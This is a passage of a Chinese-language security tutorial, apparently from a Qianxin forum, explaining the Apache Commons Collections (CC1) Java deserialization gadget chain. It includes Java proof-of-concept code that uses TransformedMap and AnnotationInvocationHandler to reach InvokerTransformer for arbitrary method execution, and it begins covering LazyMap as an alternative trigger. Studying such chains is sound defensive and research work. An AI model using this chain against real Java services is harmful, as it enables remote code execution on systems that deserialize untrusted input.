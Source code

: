 ```java

        HashMap<Object, Object> map = new HashMap<>();
        map.put("value","aaa");
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,chainedTransformer);

        Class c =  Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cls  =  c.getDeclaredConstructor(Class.class,Map.class);
        cls.setAccessible(true);
        Object o = cls.newInstance(Target.class,transformedMap);

        serialize(o);
        unserialize("ser.bin");

    }
}
```

‍

我们来回顾一下这条链子，从正向调过去

```java
反序列化#readObject->
    AnnotationInvocationHandler#readObject(存在setValue)
        MapEntry#setValue(存在checkSetValue)
            transformedMap#checkSetValue(存在transform)
                InvokerTransformer.transform(就可以调用任意方法执行任意操作)
                                                    ![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-2cdf3e854d83deeaeb2b06783001c5f2e46592b7.png)
```

‍

‍

## `LazyMap`

‍

在调用`transform` 方法中，`LazyMap#get()`也调用了

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-7ed446e0d7a10386090f45cc322e13d446cdcd7d.png)

但这里存在个条件

1. key要为空

然后就会调用`factory`的`transform`，那`factory`咋来的呢？

可以看看他的静态方法和构造器

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-e8ec3057ce81e1f5043b017dc3b989c446755e62.png)

‍

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-daec92e1665000d6514f5ca4e50cebd369292401.png)
